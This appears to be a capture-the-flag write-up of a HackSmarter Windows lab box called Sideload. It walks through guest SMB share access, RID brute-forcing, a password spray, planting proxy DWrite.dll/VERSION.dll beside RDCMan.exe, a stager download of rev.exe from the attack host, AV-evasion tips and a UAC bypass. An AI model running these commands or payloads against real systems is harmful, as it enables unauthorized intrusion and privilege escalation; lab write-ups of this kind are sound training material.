

Authorized lab only. Author: LainKusanagi. Live work 2026-08-07.
| Box | Sideload (also called Sideloaded) |
| Platform | HackSmarter (DEFCON free access) |
| Type | Windows workgroup · SMB guest · DLL sideload |
| Fault | Guest IT share, weak passwords, RDCMan DLL search order |
| Level | Hard |
| Target | 10.1.180.135 host EC2AMAZ-KQH42LS |
| Live hit | jade.moreno / Winter2026 · IT READ,WRITE · DLL plant executed |
Guest reads the IT share and a pen-test PDF that names the password pattern.
Spray users found by RID. Write a proxy DLL next to RDCMan.exe.
When an admin runs the manager, your DLL runs as that user.
guest SMB → IT share + pen-test PDF → RID: jade.moreno, lewis.hopkins → spray seasons+year → jade.moreno:Winter2026 (WRITE) → plant DWrite.dll / VERSION.dll beside RDCMan.exe → lewis runs RDCMan → payload (HTTP callback observed) → UAC bypass (SSPI) → SYSTEM → flags

nmap -Pn -n -p 135,139,445,3389 --open 10.1.180.135 nxc smb 10.1.180.135 -u guest -p '' --shares
Live result: 135/139/445/3389 open. Guest OK. Share IT is READ. IPC$ is READ.
Share Permissions IT READ IPC$ READ ADMIN$ (empty) C$ (empty)
smbclient //10.1.180.135/IT -U 'guest%' -c 'ls; prompt OFF; mget *'
Files:
RDCMan.exe — Remote Desktop Connection Manager (sideload host)Penetration Test Results.pdf — weak password policy (words + year, no lockout)notes.txt — “Remote into the computers of Finance department…”Eula.txt# PDF summary (extracted) Weak Password Policy No account lockout after bruteforce attempt Using guessable words + year combination as passwords Overly permissive file shares Guest account and employees have access to sensitive documents
nxc smb 10.1.180.135 -u guest -p '' --rid-brute
1000: EC2AMAZ-KQH42LS\jade.moreno 1002: EC2AMAZ-KQH42LS\lewis.hopkins
# bases: seasons + first/last names # years: 2022..2026 # impacket / nxc single-user spray python3 -c "from impacket.smbconnection import SMBConnection; ..." # live hit: # jade.moreno:Winter2026
nxc smb 10.1.180.135 -u jade.moreno -p 'Winter2026' --shares # IT READ,WRITE
Common targets seen on this lab: DWrite.dll (proxy DWriteCreateFactory) and VERSION.dll.
# build a DWrite proxy that still forwards to System32 x86_64-w64-mingw32-gcc -shared -o DWrite.dll DWrite_proxy.c -lole32 -s # serve payload python3 -m http.server 8000 # on tun0, e.g. 10.200.78.90 # plant smbclient //10.1.180.135/IT -U 'jade.moreno%Winter2026' -c 'put DWrite.dll; put VERSION.dll'
Live proof of execution: after plant, the target fetched the stager from the attack box:
10.1.180.135 - - [07/Aug/2026 23:20:50] "GET /rev.exe HTTP/1.1" 200 - 10.1.180.135 - - [07/Aug/2026 23:22:56] "GET /rev.exe HTTP/1.1" 200 -
That means the sideload path ran as the user who opened RDCMan (lab intent: lewis.hopkins, local admin medium integrity).
A raw msfvenom EXE may die under AV; prefer a staged / in-memory loader, or write loot files back to the share / Public.
# user flag (as lewis) type C:\Users\lewis.hopkins\Desktop\user.txt # elevate (lab tools: SspiUacBypass / UAC-BOF-Bonanza in Sliver or standalone) # then: type C:\Users\Administrator\Desktop\root.txt
Hardening note for the payload: if reverse shells die, write flags to the IT share from DllMain:
// as the hijacked user, CWD is often the share folder whoami > whoami.txt type %USERPROFILE%\Desktop\user.txt > userflag.txt
Sideload is a clean chain: guest enum → report-driven spray → writable share → DLL sideload. Code execution was proven live by the target downloading the stager twice over HTTP.